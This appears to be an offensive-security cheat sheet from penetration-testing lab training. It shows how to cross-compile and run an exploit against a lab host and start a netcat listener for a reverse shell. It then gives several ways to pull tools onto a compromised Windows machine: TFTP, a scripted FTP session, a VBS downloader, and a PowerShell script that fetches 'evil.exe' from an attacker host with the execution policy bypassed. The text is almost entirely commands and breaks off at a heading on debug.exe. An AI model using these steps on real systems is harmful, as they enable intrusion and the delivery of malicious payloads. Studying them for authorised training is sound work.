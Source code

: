 ## Exploitation

```text
$ apt-get install mingw-w64
$ i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe
$ wine 646.exe 10.11.1.35
$ nc -nlvp 4444
```

## Uploading files to a windows machine

### TFTP

```text
$ mkdir /tftp
$ atftpd --daemon --port 69 /tftp
$ cp /usr/share/windows-binaries/nc.exe /tftp/

C:\Users\Offsec>tftp -i 10.11.0.5 get nc.exe
```

### FTP

```text
$ apt-get update && apt-get install pure-ftpd

C:\Users\offsec>echo open 10.11.0.5 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo ftp>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt

C:\Users\offsec>ftp -v -n -s:ftp.txt
```

### Non Interactive VBS script HTTP downloader

`C:\Users\user>cscript wget.vbs http://10.11.0.5/evil.exe evil.exe`

### Powershell remote file download

```text
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File
wget.ps1
```

### Using debug.exe to transfer files
